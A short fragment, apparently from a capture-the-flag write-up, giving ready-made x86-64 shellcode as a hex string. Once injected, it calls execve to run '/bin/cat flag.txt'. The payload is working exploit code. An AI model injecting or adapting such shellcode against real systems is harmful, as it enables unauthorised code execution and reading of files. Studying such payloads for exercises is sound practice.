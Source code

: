 ###  shellcode with execve syscall and /bin/cat binary
Ready shellcode looks like this:
`4831c05048b8666c61672e747874504889e14831c05048b82f62696e2f636174504889e74831c05051574889e6b03b0f05`
